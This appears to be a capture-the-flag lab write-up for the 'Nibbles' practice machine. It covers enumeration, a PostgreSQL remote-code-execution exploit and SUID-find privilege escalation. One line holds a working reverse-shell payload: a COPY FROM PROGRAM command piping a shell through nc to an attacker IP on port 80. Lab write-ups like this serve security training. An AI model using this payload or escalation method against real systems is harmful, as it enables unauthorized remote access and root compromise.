






# Nibbles

Machine: [Nibbles](https://portal.offensive-security.com/labs/practice)\
Difficulty: Get to work

## Enumeration

What operating system is on this machine? Linux
What ports/services are on running on this machine?

I ran a dirbuster scan since there is a webserver running on port 80, but I did not find anything of interest based on the results and reviewing the page source for the pages I was able to access. Next, I used nmap scripts to do smb enumeration but I did not get much information back. Lastly, I search the postgres version and discover that there is a RCE with the version on this machine. I downloaded the exploit [here](https://www.exploit-db.com/exploits/50847).\

After figuring out how to run the exploit, I tried a few things to get a reverse shell. I tried to execute bash and python to connect back to my machine, I tried to host a reverse shell on my computer and then retrieve it using wget on the victim machine (this was not successful). I found a couple of other peoples scripts on github that are supposed to exploit this vulnerability, but I had issues with getting those to work. Despite this I was still able to get the local/user flag just from using the exploit on exploit db...I just could not figure out how to get the reverse shell. 

Once I got the user flag, I looked online and found that there must be firewall settings that are restricting outbound connections. Port 80 is allowed and I was able to get a reverse shell using this command. I did have to login to the postgres service to do this but it still might be possible by using the script provided by exploit db.
<pre> COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.57 80 >/tmp/f'</pre> 

https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/authenticated-arbitrary-command-execution-on-postgresql-9-3/

## Flags
### Local/User
I was able to get this flag just from the exploit from exploit-db.

### Root
I ran some commands that I normally use to search for common things prior to uploading something like linpeas. I see that the find binary has the SUID set, so we can just run the find command to escalate our privileges. So the easiest way to do this is just create a test file, and then use the find command to search for it. I created a file in /tmp and then used the find command. This allowed me to run find as root as get the root flag.

